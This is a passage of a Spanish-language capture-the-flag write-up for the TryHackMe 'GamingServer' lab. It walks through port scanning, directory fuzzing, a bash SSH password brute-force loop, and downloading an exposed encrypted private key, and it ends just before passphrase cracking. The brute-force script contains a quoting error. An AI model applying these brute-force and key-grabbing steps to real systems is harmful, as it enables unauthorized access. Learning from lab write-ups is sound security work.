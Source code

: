 ## TryHackMe  <> GamingServer

![image](https://github.com/Esevka/CTF/assets/139042999/498c4185-0e3c-4f9b-b116-6dc643d2e93e)

Enlace Maquina: https://tryhackme.com/room/gamingserver

Enunciado : Obtener  flags de usuario y root.
---
---

## Escaneo de puertos

-Lanzamos una traza ICMP(ping) para ver si la maquina esta activa, segun el ttl obtenido por proximidad al valor 64 podriamos decir que es una maquina Linux.

    ┌──(root㉿kali)-[/home/kali]
    └─# ping -c1 10.10.236.80
    PING 10.10.236.80 (10.10.236.80) 56(84) bytes of data.
    64 bytes from 10.10.236.80: icmp_seq=1 ttl=63 time=214 ms
    
    --- 10.10.236.80 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 214.202/214.202/214.202/0.000 ms
    
-Reporte Nmap (Obtenemos puertos abiertos servicios y versiones que estan corriendo).

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/nmap]
    └─# nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.236.80 -oN open_ports
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 17:10 CEST
    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63
                                                                                                                                                                                  
    ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/nmap]
    └─# nmap -p 22,80 -sCV 10.10.236.80 -vvv -oN info_ports                        
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-15 17:11 CEST
    
    PORT   STATE SERVICE REASON         VERSION
    22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 340efe0612673ea4ebab7ac4816dfea9 (RSA)
    | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCrmafoLXloHrZgpBrYym3Lpsxyn7RI2PmwRwBsj1OqlqiGiD4wE11NQy3KE3Pllc/C0WgLBCAAe+qHh3VqfR7d8uv1MbWx1mvmVxK8l29UH1rNT4mFPI3Xa0xqTZn4Iu5RwXXuM4H9OzDglZas6RIm6Gv+sbD2zPdtvo9zDNj0BJClxxB/SugJFMJ+nYfYHXjQFq+p1xayfo3YIW8tUIXpcEQ2kp74buDmYcsxZBarAXDHNhsEHqVry9I854UWXXCdbHveoJqLV02BVOqN3VOw5e1OMTqRQuUvM5V4iKQIUptFCObpthUqv9HeC/l2EZzJENh+PmaRu14izwhK0mxL
    |   256 49611ef4526e7b2998db302d16edf48b (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEaXrFDvKLfEOlKLu6Y8XLGdBuZ2h/sbRwrHtzsyudARPC9et/zwmVaAR9F/QATWM4oIDxpaLhA7yyh8S8m0UOg=
    |   256 b860c45bb7b2d023a0c756595c631ec4 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOLrnjg+MVLy+IxVoSmOkAtdmtSWG0JzsWVDV2XvNwrY
    
    80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
    | http-methods: 
    |_  Supported Methods: GET POST OPTIONS HEAD
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: House of danak
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

## Analisis de vulnerabilidades en los servicios y explotacion de los mismos.

-Revisamos la web en busqueda de info que nos pueda servir.

  - En el codigo de la web encontramos un posible usuario ---> john
    
        john, please add some actual content to the site! lorem ipsum is horrible to look at.
      

  - Si entramos en el apartado "DRAAGAN LORE" encontramos un boton "Uploads" que nos lista el contenido del directorio.
  
      ![image](https://github.com/Esevka/CTF/assets/139042999/4f6fafd0-f46a-49b4-af5f-bb64f865c9b8)

    Nos descargamos dict.lst, segun hemos visto puede ser un diccionario de posibles claves para el usuario anteriormente encontrado john.

  - Podriamos hacer un pequeno script en bash que intente conectar por el servicio ssh del puerto 22 probando esas claves.

      Creamos el script y le damos permisos de ejecucion

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/script]
        └─# touch brute_ssh.sh
                                                                                                                                                                                      
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/script]
        └─# chmod +x brute_ssh.sh
    
  - Contenido del script y su ejecucion, no pudimos loguearnos por ssh.
  
        #!/bin/bash
        for pass in $(cat ../content/dict.lst)
          do
            echo $pass
            sshpass -p $'("pass")' ssh john@10.10.236.80  -o StrictHostKeyChecking=no
          done
  
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/script]
        └─# ./brute_ssh.sh
        Spring2017
        Warning: Permanently added '10.10.236.80' (ED25519) to the list of known hosts.
        Permission denied, please try again.
        Spring2016
        Permission denied, please try again.
        Spring2015
        Permission denied, please try again.
    
-Fuzzeamos la web

    ┌──(root㉿kali)-[/home/kali/Desktop/ctf/gamingserver]
    └─# gobuster dir -u http://10.10.236.80 -w /usr/share/wordlists/dirb/common.txt -o fuzz
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    /secret               (Status: 301) [Size: 313] [--> http://10.10.236.80/secret/]
    /server-status        (Status: 403) [Size: 277]
    /uploads              (Status: 301) [Size: 314] [--> http://10.10.236.80/uploads/]

  - Encontramos en el directorio /secret un fichero "secretKey" lo que puede ser una clave privada del usuario john para conectarnos por ssh
    
      ![image](https://github.com/Esevka/CTF/assets/139042999/ae93dacb-e0ff-48af-bad9-92975c87fb4f)

      ![image](https://github.com/Esevka/CTF/assets/139042999/7e6f4292-b075-44f1-82c2-1b530e567f83)


  - Nos la copiamos a nuestra maquina y le damos permisos solo de lectura, intentamos conectarnos.
      
        ┌──(root㉿kali)-[/home/kali/Desktop/ctf/gamingserver]
        └─# curl http://10.10.236.80/secret/secretKey -o content/id_rsa
          % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                         Dload  Upload   Total   Spent    Left  Speed
        100  1766  100  1766    0     0  13357      0 --:--:-- --:--:-- --:--:-- 13378                                        
                                                                                                                                                                                      
        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# cat id_rsa        
        -----BEGIN RSA PRIVATE KEY-----
        Proc-Type: 4,ENCRYPTED
        DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547
        
        T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
        H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
        FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
        Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
        [...]

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# chmod 400 id_rsa

        ┌──(root㉿kali)-[/home/…/Desktop/ctf/gamingserver/content]
        └─# ssh john@10.10.236.80 -i id_rsa            
        Enter passphrase for key 'id_rsa':

      Nos pide clave para poder utiliar la clave privada que hemos proporcionado, por lo que vamos a intentar crakearla utilizando el diccionario que encontramos anteriormente.

  - 


    
                                                                   

        

